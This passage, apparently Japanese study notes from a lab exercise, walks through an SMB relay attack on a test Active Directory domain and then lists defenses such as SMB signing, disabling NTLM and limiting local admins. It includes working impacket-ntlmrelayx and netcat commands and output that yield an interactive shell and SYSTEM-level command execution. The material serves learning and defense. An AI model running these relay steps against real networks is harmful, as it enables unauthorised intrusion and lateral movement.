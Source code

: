 同じようにドメイン参加ホストから、攻撃者のkaliにアクセスする

すると、smbリレー攻撃が実行される
![](https://i.imgur.com/0d97XYB.png)

そして、192.168.56.103に対するシェルが開かれていることがわかる
```sh
[*] Authenticating against smb://192.168.56.103 as MARVEL/FCASTLE SUCCEED
[*] Started interactive SMB client shell via TCP on 127.0.0.1:11000
```

シェルに接続する
```sh
nc 127.0.0.1 11000
```

実際に、用意されているコマンドを使用できる
用意されているコマンドは、「help」で出力される
![](https://i.imgur.com/WYhqOf4.png)


### コマンドの実行
Responderの準備をするまでは一緒
ここでは、impacket-ntlmrelayxのオプションを使って、コマンドを実行する
- オプションで`-c`をつけて実行する
```sh
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```

同じようにドメイン参加ホストから、攻撃者のkaliにアクセスする

すると、smbリレー攻撃が実行される
ここでは、whoamiの実行結果が、「nt authority\system」なので、192.168.56.103でローカル管理者権限を持つとわかる
![](https://i.imgur.com/e1xldiU.png)



## 防御・対策
全てのデバイスでSMB署名を有効化すること
- 第一にできる対策
- SMB Relay攻撃を受け付けないようにできる
- 欠点
	- ファイルコピーの速度が10%から20%程度低下するよう
	- そのため、対象の組織が大量のファイルコピーを行なっていて、その速度が重要である場合は、ネットワークでSMB署名を有効にしないという選択肢が必要かもしれない
- しかし、ほとんどの組織にとって、問題なく、仮に少しパフォーマンスが遅くなったとしても、安全性とのトレードオフは許容範囲内

NTLM認証の無効化
- SMB Relay攻撃を止められる
- 欠点
	- Kerberousが機能しなくなった時に、通常はNTLMにフォールバックすることで、攻撃が可能になる

アカウントの階層化
- ベストプラクティス

ローカル管理者の制限
- ローカル管理者がいない場合、smb リレー攻撃は実行しても大きな成果は得られない
	- SAMのハッシュをダンプできないし、詳細に列挙もできない
- 横展開（Lateral movement）を大幅に防止できる
- LAPSのようなツールを利用できる
- 欠点
	- サービスデスクへの問い合わせチケットが増える可能性がある
	- ユーザーがインストールしたいアプリをいちいち、サービスデスクに伝えないといけない
	- 大きな会社では、サービスデスクがそのような権限を持っていることが多いから
